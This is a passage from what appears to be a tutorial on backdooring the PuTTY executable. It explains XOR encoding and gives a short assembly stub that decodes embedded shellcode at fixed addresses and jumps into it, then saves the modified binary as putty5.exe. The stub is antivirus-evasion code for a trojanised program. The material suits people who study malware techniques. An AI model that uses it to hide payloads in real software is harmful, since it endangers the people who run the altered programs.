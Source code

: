 For our encoder/decoder, we’ll use an XOR algorithm due to its simplicity and symmetric property. Once we XOR (encrypt) a certain value with a key, we can simply obtain its original value (decrypt) by XORing the encrypted value with the same key. The following image shows how an XOR encoder/decoder works.
[![XOR](/static/img/2018-07-21-backdoor101-part2/29.png)](/static/img/2018-07-21-backdoor101-part2/29.png)
###### _Credit goes to the original creator of this image._


This what our XOR encoder/decoder code looks like.
```nasm
MOV EBX, 0x0047AA26                ; Place shellcode's start address in EBX
XOR BYTE PTR DS:[EBX], 0E          ; XOR the contents of EBX with using “0E” as key  
INC EBX                            ; Increase EBX
CMP EBX, 0x0047AB69                ; Did we reach the shellcode's last address?
JLE SHORT 0x0047AA17               ; If not, jump back to our XOR command
JMP 0x0047AA26                     ; If yes, we’re done and let’s jump to the start of our shellcode
```

This is what our updated code looks like. Let’s save the changes as **putty5.exe**.